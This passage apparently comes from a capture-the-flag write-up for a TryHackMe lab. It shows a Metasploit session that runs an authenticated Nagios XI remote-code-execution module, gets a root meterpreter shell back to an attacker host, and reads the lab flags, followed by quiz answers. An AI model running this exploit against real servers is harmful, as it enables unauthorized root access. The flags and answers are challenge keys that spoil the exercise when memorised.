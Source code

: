 ```
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 10.10.135.242
RHOSTS => 10.10.135.242
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > run
```

```
meterpreter > shell
Process 13658 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
whoami
root
cd /home
ls
galand
cd galand
ls
nagiosxi
user.txt
cat user.txt
THM{V0N318*****84b17add1d72a9f2e99c33bc568ae0f1}
cd /root
ls
root.txt
scripts
cat root.txt
THM{V0N318*****c89b2e39c83067503a6508b21ed6e962}
```

1. What hidden file did you find?

`/PI3T.PNg`

3. Who is the creator of the file?
